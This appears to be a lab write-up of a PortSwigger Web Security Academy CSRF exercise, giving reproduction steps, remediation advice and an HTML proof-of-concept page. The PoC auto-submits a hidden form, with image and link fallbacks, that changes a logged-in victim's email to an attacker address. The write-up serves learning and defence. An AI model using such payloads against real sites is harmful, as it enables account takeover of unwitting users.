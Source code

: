 # PS-006 — CSRF: Missing/Invalid Token
**Date / Analyst:** 2025-09-08 — Christopher Araque
**Target:** PortSwigger WSA (CSRF basic, token missing/ignored)

## TL;DR
A state-changing action (e.g., change email) succeeds without a valid CSRF token.
**Impact:** attacker can alter account data via a lure link or auto-submitting page.
**Fix:** per-request, unpredictable tokens; validate Origin/Referer; SameSite cookies.

## Scope & Context
- Endpoint: `/my-account/change-email`
- Auth context: logged-in user (wiener)
- Method: GET (token ignored)
- Token present, but ignored for GET; request succeeds without CSRF validation.
## Steps to Reproduce
1) Log in. Find a state-changing action (change email/password/add comment).
2) Capture request (Burp/DevTools). Confirm token is missing/ignored/static.
3) Build a PoC page that auto-submits the same request from a third-party context.
4) While logged in, open the PoC → observe server-side change.

## Evidence
- Request/Response: [ps-006-request.txt](../../evidence/ps-csrf/ps-006-request.txt)
- Screenshot: ![PS‑006](../../evidence/ps-csrf/ps-006-screenshot.png)

## PoC (edit action/fields)
```html
Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Cache-Control: no-store

<!doctype html>
<html>
  <body>
    <form action="<lab-host>web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>

Body:
<!doctype html>
<html>
  <body>
    <!-- Auto-submit GET request that bypasses CSRF token enforcement -->
    <form action="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>

    <!-- Fallback (works even with JS off): -->
    <img src="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email?email=victim%40evil.com" style="display:none">
    <noscript>
      <a href="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email?email=victim%40evil.com">Click here</a>
    </noscript>
  </body>
</html>

## Impact
Email change ➜ password reset ➜ potential takeover

## Recommended Remediation
- Enforce **per-request, unpredictable CSRF tokens** bound to user/session.
- **Validate Origin/Referer** on state-changing requests.
- Set cookies with **SameSite=Lax/Strict**, **HttpOnly**, **Secure**.
- Deny state-changing **GET**; prefer **POST** with CSRF defenses.

## Notes
- If token exists but action still succeeds when removed/altered → “token not validated”.
- If token is static or leaked in GET, document the weakness.
